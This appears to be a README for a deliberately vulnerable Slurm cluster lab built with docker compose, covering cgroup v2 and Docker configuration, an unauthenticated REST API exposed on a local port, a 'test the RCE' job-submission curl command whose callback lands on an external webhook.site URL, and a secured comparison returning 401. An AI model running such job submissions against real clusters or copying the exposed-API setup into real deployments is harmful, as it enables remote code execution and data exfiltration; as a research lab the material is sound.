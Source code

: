# vulnerable setup
note that this is a smaller version of this docker compose setup: https://gitlab.com/SchedMD/training/docker-scale-out

## configure the OS 
on ubuntu 24.04 install docker and then:
```
sed -e 's@^GRUB_CMDLINE_LINUX=@#GRUB_CMDLINE_LINUX=@' -i /etc/default/grub
echo 'GRUB_CMDLINE_LINUX="systemd.unified_cgroup_hierarchy=1 systemd.legacy_systemd_cgroup_controller=0 cgroup_no_v1=all"' >> /etc/default/grub
update-grub
```
reboot the OS.
Validate the OS doesn't contain hybrid cgroup versions.
```
reboot
# Verify kernel has correct command line options:
grep -o -e systemd.unified_cgroup_hierarchy=. -e systemd.legacy_systemd_cgroup_controller=. /proc/cmdline
# systemd.unified_cgroup_hierarchy=1
# systemd.legacy_systemd_cgroup_controller=0
```
ref: https://slurm.schedmd.com/faq.html#cgroupv2

## configure docker
```
cat << EOFF >> /etc/docker/daemon.json
{
  "exec-opts": [
    "native.cgroupdriver=systemd"
  ],
  "features": {
    "buildkit": true
  },
  "experimental": true,
  "cgroup-parent": "docker.slice",
  "default-cgroupns-mode": "host",
  "storage-driver": "overlay2",
  "experimental": true,
  "ip6tables": true

}
EOFF

cat << EOFF >> /etc/systemd/system/docker.slice
[Unit]
Description=docker slice
Before=slices.target
[Slice]
CPUAccounting=true
MemoryAccounting=true
Delegate=yes
EOFF

mkdir /usr/lib/systemd/system/docker.service.d/
cat << EOFF >> /usr/lib/systemd/system/docker.service.d/local.conf
[Service]
LimitNOFILE=infinity
LimitNPROC=infinity
LimitCORE=infinity
TasksMax=infinity
Delegate=yes
EOFF

```

## setup
```
bash start.sh
```
## test the RCE
```bash
curl -k -vvvv 'http://127.0.0.1:8082/openapi/v3' 
curl -X POST "http://127.0.0.1:8082/slurm/v0.0.39/job/submit" -H "Content-Type: application/json" -d @rest_api_test.json
```
open https://webhook.site/#!/view/7c925655-38c0-461a-b37d-f7aa05f747e4 to see the callback logs.

# secure setup
for testing the safe setup just send the request directly to the REST API server:
```
curl -k -vvvv 'http://10.11.1.6:6820/openapi/v3'
# HTTP/1.1 401 UNAUTHORIZED
```

